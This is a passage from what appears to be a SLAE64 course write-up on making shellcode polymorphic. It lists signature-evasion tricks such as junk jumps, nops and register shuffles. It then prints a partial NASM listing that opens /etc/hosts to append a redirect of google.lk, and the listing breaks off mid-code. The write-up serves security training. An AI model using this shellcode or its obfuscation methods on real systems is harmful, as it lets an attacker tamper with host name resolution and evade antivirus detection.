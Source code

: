 The following techniques are applied to polymorph the code:
- Replace the Stack Technique used to store the `/etc/hosts` string by Relative Address Technique
- Replace the JMP-CALL-POP by Relative Address 
- Lot of `mov` instructions that can be replaced by `jmp;pop`
- Several `add` after a `xor` that can be replaced by `push;pop`

Doing this, the polymorphic code results in a reduced version of **84 bytes**. [Sample_2_Polymorph_V1.nasm](https://github.com/galminyana/SLAE64/blob/main/Assignment06/Sample_2_Polymorph_V1.nasm) file in the [GitHub Repo](https://github.com/galminyana/SLAE64/tree/main/Assignment06), contains the code for this first version

That size leaves space to add more "dumb" instructions to obfuscate the code:
- Add `push` and `pop` anywhere in the code using registers that won't interfer in the code
- Move location of instructions to parts of code where does not affect
- Creating "dumb" bucles over the code
- Add some `nop`
- Place `jmp` around modifying the code flow widdth same results

With all those tricks, the final code has **98 bytes** size. **This is a reduced size from the original shellcode**. The code ends being this:
```asm
global _start
    section .text
_start:

    jmp real_start
    text db "127.1.1.1 google.lk"   ; 19 bytes
    path db "/etc/hosts", 0x00      ; 10 bytes

real_start:

    ;open
    push 2
    pop rax
    ; Instead the stack for the string, use rel addressing
    lea rdi, [rel text]
    push rdi
    pop r9
    push rdi
    pop rdi
    add rdi, 19
    xor rsi, rsi
    add si, 0x401
    ; Garbage jump
    jmp some_jump_1

some_jump_2:
    syscall
	
    ; Garbage jump
    jmp some_jump_3
    nop
    ;write
    ; Garbage jump
some_jump_1:
    jmp some_jump_2
	
some_jump_3:
    push rax
    pop rdi

    push 1
    pop rax

write:
```